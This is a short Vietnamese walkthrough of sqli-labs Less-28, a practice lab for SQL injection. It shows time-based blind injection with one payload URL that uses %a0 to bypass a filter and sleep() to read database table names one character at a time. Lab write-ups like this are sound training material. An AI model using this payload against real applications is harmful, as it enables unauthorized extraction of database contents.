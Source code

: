 # Less 28

Yêu cầu truyền vào ID từ đề bài

![](../images/sqli-labs/Less-28/01.png)

Nhập thử vào 1 giá trị

![](../images/sqli-labs/Less-28/02.png)

Tôi thấy ở bài này không hiển thị ra lỗi trên màn hình nhưng có thể biết được thông tin của DB thông qua time based

![](../images/sqli-labs/Less-28/03.png)

Show chữ đầu tiên version của DB

![](../images/sqli-labs/Less-28/04.png)

Hoặc chữ đầu tiên trong 1 bảng của DB

```
http://192.168.84.233/sqli-labs/Less-28/?id=1%27%a0and%a0if(substr((select%a0table_name%a0from%a0information_schema.tables%a0where%a0table_schema=%27security%27%a0limit%a00,1),1,1)=%27e%27,sleep(1),false)%a0and%a0%271%27=%271
```

![](../images/sqli-labs/Less-28/05.png)

Tương tự như vậy có thể thử để lấy đầy đủ thông tin của DB.

Thay vì làm thủ công để lấy thông tin ta cũng có thể dùng script